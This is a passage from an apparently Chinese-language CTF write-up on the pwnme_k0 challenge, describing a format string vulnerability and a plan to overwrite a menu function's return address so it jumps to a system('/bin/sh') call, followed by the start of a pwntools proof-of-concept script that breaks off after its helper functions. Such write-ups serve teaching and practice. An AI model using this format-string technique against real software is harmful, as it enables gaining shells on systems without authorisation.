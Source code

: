 ![pwnme_k0_1](/image/2019-03-20-linux_pwn_format/pwnme_k0_1.png)

发现格式化字符串漏洞。

### 利用思路

这里由于可以无限次的修改信息和查看信息，可以说可以无限次的使用格式化字符串漏洞。在程序里，我们发现了一个 `system(“/bin/sh”)` 调用，由于退出菜单是用的 `ret` 指令，所以我们可以尝试对菜单的返回地址进行覆盖，具体流程如下。

1. leak 栈上的地址，得到调用菜单时保存 `eip` 时的偏移量 。
2. 修改菜单函数的返回地址 改为 `system(“/bin/sh”)` 调用的地址。
3. 执行 `system("/bin/sh")`



在这里具体的操作就不过多的赘述了，直接放出 `poc` 。

`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def show_info(exp_file):
    exp_file.recvuntil(">")
    exp_file.sendline("1")


def set_info(exp_file, name, password):
    exp_file.recvuntil("username(max lenth:20):")
    exp_file.sendline(name)
    exp_file.recvuntil("password(max lenth:20):")
```